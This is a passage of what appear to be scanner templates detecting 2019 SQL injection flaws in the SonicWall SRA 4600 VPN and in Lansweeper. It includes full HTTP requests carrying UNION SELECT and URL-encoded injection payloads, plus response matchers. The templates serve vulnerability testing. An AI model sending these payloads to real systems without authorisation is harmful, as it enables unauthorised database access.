 **Type - word**
- part - body
- words
    1. 43865094559

**Type - status**
- status
    1. 200

---
# SonicWall SRA 4600 VPN - SQL Injection
## Description
- The SonicWall SRA 4600 VPN appliance is susceptible to a pre-authentication SQL injection vulnerability.
- severity - high
- tags - cve,cve2019,sonicwall,sqli,kev
## Requests
### Step - 1
```
POST /cgi-bin/supportInstaller HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: identity
User-Agent: MSIE
Content-Type: application/x-www-form-urlencoded

fromEmailInvite=1&customerTID=unpossible'+UNION+SELECT+0,0,0,11132*379123,0,0,0,0--

```
### Matchers

**Type - word**
- words
    1. 4220397236
- part - body

---
# Lansweeper Unauthenticated SQL Injection
## Description
- Lansweeper before 7.1.117.4 allows unauthenticated SQL injection.
- severity - critical
- tags - cve,cve2019,sqli,lansweeper
## Requests
- Method - GET
### URL
- {{BaseURL}}/WidgetHandler.ashx?MethodName=Sort&ID=1&row=1&column=%28SELECT%20CONCAT%28CONCAT%28CHAR%28126%29%2C%28SELECT%20SUBSTRING%28%28ISNULL%28CAST%28db_name%28%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%29%2C1%2C1024%29%29%29%2CCHAR%28126%29%29%29
### Matchers
